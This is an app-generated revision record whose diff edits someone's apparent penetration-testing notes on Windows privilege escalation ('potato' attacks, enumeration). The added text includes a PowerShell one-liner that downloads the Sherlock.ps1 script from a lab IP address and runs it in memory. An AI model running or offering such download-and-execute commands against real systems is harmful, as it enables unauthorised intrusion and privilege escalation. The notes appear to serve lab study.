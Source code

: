 id: 238ce868f96d4253b17e9b7e59a05da2
parent_id: 431c363c08494601a39b19f69c92e746
item_type: 1
item_id: 5e4294f0738d4d969fc5e1aa80617d0b
item_updated_time: 1650903654524
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"scp.html\"],[-1,\" \"],[0,\"\\\n\\\nhttps:\"]],\"start1\":82,\"start2\":82,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"potato\\\n\\\n\"],[1,\"# Sherlock (Automated Enumeration)\\\n\\\n> powershell -nop \\\"IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.160/Sherlock.ps1')\\\n\\\n\"],[0,\"# whoami\"]],\"start1\":169,\"start2\":169,\"length1\":16,\"length2\":163},{\"diffs\":[[0,\".1809)\\\n\\\n\"],[1,\"[\"],[0,\"https://\"]],\"start1\":428,\"start2\":428,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\"html\"],[-1,\" \"],[1,\"](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)\"],[0,\"\\\n\\\n> \"]],\"start1\":508,\"start2\":508,\"length1\":9,\"length2\":84}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-25T16:23:08.731Z
created_time: 2022-04-25T16:23:08.731Z
type_: 13